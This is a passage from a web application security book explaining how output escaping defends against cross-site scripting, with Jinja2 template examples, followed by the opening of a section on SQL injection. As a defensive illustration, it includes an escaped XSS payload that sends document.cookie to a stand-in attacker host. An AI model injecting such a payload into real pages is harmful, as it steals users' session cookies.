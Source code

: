 1.  The malicious script is executed in the victim’s browser. This script can cause all sorts of problems. A popular approach is to send the user’s cookies to a remote server that’s controlled by the attacker, as in the preceding example.

[](/book/grokking-web-application-security/chapter-4/)The key to protecting against XSS is ensuring that any untrusted content—any content potentially entered by an attacker—is escaped as it is written out on the other end. Specifically, this approach means replacing metacharacters with their corresponding escape sequences:

```
<div class="comments">
 <p class="comment">
   &lt;script&gt;
     window.location='haxxed.com?cookie='+document.cookie
   &lt;/script&gt;
 </p>
</div>
```

Escape sequences will be rendered visually as their unescaped counterparts (so `&lt;` will display as `<` on the screen), but the HTML parser will not see them starting or ending an HTML tag. The following figure shows the full list of escape sequences needed for HTML.

[](/book/grokking-web-application-security/chapter-4/)Dynamic HTML pages are usually rendered by means of *templates*, which intersperse dynamic content with HTML tags. Most template languages escape dynamic content by default because of the risks of XSS. The following snippet shows how a malicious JavaScript input will be escaped safely in the popular Python templating language Jinja2:[](/book/grokking-web-application-security/chapter-4/)

```json
{{ "<script>" }}
```

This snippet outputs `&lt;script&gt;` to the HTML of the HTTP response, safely defusing XSS attacks. To enable an XSS attack, you would have to disable escaping explicitly, as follows:

```json
{{ "<script>" | safe }}
```

This code will output `<script>` in the HTML, which is not safe. Make sure that you know how your template language of choice performs escaping and how to spot when escaping has been disabled. Also, be careful when writing any helper functions that output HTML for injection into a downstream template, *especially* if they take dynamic inputs that are under the control of an attacker. HTML strings constructed outside templates are often overlooked in security reviews.

### Escaping output in database commands

[](/book/grokking-web-application-security/chapter-4/)Failure to safely escape characters being inserted into SQL commands will make you vulnerable to SQL injection attacks.[](/book/grokking-web-application-security/chapter-4/)[](/book/grokking-web-application-security/chapter-4/)

Most web applications communicate with some sort of data store, which generally means that your code will end up constructing a database command string from input supplied in the HTTP request. A classic example is looking up a user account in a SQL database when a user logs in. This scenario is another one where untrusted input is written to an output in which particular characters have special meaning. The security consequences can be horrible.[](/book/grokking-web-application-security/chapter-4/)
